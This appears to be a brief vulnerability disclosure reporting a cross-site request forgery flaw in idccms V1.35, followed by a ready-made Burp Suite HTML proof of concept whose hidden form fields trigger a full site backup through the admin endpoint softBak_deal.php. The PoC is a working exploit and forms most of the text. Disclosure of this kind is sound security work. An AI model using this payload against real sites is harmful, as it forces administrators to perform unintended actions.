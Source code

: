 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/softBak_deal.php?mudi=backup

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/softBak_deal.php?mudi=backup" method="POST">
      <input type="hidden" name="backURL" value="http%3A%2F%2F127.0.0.1%2Fadmin%2FsoftBak.php%3Fmudi%3Dbackup%26menuID%3D999905" />
			<input type="hidden" name="mode" value="all" />
			<input type="hidden" name="zipPwd" value="" />
			<input type="hidden" name="zipNote" value="" />
			<input type="hidden" name="backupSpace" value="server" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
